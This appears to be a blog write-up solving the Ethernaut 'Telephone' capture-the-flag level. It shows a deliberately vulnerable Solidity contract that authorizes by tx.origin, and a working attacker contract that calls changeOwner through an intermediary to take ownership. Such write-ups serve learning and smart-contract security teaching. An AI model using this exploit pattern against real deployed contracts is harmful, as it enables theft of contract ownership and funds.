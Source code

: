 ```yaml
---
layout: post
title: Ethernaut - 4.Telephone
date:  2022-08-27
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌑🌑🌑🌑

> Claim ownership of the contract below to complete this level.<br />
  Things that might help<br /><br />
  See the Help page above, section "Beyond the console"

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

## Writeup
To complete this level, we need to claim ownership of the contract. 
The keypoint is the difference between` tx.origin` and `msg.sender`.

![](https://i.imgur.com/ktsMFfo.png)
1. Get new instance
2. Create a contract 
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    interface Telephone {
        function changeOwner(address _owner) external;
    }

    contract AttackTelephone {
        Telephone public targets = Telephone(YOUR_LEVEL_INSTANCE_ADDRESS);

        function attackTelephone() public{
            targets.changeOwner(YOUR_ACCOUNT);
        }
    }
    ```
3. Compile & deploy .
4. Call attackTelephone function. In this scenario, `tx.origin` will be the victim's address while `msg.sender` will be the malicious contract ( AttackTelephone ) 's address. ( `tx.origin != msg.sender` == `true` )
5. Callthe method 
    ``` javascript

    await contract.owner().then(v => v.toString())
    
    ```
    to check owner if it is your account.
6. Submit instance ξ( ✿＞◡❛)


## Reference
[tx.origin vs msg.sender](https://davidkathoh.medium.com/tx-origin-vs-msg-sender-93db7f234cb9)